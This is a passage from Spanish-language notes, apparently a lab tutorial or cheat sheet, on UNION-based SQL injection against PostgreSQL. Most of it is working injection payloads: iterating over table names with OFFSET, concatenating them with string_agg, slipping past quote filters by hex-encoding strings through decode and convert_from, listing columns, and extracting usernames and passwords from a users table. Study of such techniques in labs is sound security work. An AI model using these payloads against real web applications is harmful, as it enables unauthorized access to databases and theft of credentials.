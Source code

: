 ### 3) Iterar (ej.: segunda fila, offset 1)

```bash
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema='public' LIMIT 1 OFFSET 1-- -
```

### 4) Concatenar todas las tablas del esquema (equivalente a `GROUP_CONCAT`)

```bash
' UNION SELECT NULL, (SELECT string_agg(table_name, ',') FROM information_schema.tables WHERE table_schema='public')-- 
```


---
## Cadena hexadecimal


En ocasiones, por seguridad de la página, puede ser que no podamos introducir ciertas cadenas como `'academy_labs`. Para estos casos podemos introducir la cadena en hexadecimal de la siguiente forma

```shell
echo -n "public" | xxd -p
```

Resultado:

```shell
7075626c6963
```

PostgreSQL no reconoce `0x` como literal hexadecimal para cadenas. En PostgreSQL hay que:

- convertir la cadena hex a `bytea` con `decode('hexstring','hex')`, y luego

- convertir el `bytea` a texto con `convert_from(..., 'UTF8')` (si la cadena original está en UTF‑8)

```shell
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = convert_from(decode('7075626c6963','hex'),'UTF8')-- -
```

![Captura](./Imágenes/web_13.png)


---

## Listar columnas de una tabla



```sql
' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='nombre_tabla'-- -
```


---
## Extraer usuarios de una tabla `users`



```sql
' UNION SELECT username, password FROM users-- -
```